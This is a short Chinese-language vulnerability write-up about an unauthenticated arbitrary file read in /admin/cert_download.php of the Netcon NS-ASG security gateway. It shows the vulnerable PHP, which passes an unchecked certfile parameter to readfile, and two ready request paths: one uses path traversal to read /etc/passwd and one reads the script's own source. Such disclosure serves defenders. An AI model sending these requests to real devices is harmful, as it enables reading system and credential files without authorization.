 # 网康 NS-ASG安全网关 cert_download.php 任意文件读取漏洞

## 漏洞描述

网康 NS-ASG安全网关 cert_download.php 文件存在任意文件读取漏洞

## 漏洞影响

```
网康 NS-ASG安全网关
```

## 网络测绘

```
网康 NS-ASG安全网关
```

## 漏洞复现

出现漏洞的文件为 **/admin/cert_download.php**

```php
![](C:\Users\47236\Desktop\2.png)<?php
$filename = substr($file,strpos('certs/',$certfile)+6);
//文件的类型
header('Content-type: application/pdf');
//下载显示的名字
header('Content-Disposition: attachment; filename="'.$filename.'"');
readfile("$certfile");
exit();
?>
```

此文件没有对身份进行校验即可下载任意文件

```plain
/admin/cert_download.php?file=test.txt&certfile=../../../../../../../../etc/passwd
```

![](images/202202162231024.png)

```plain
/admin/cert_download.php?file=test.txt&certfile=cert_download.php
```

![](images/202202162234357.png)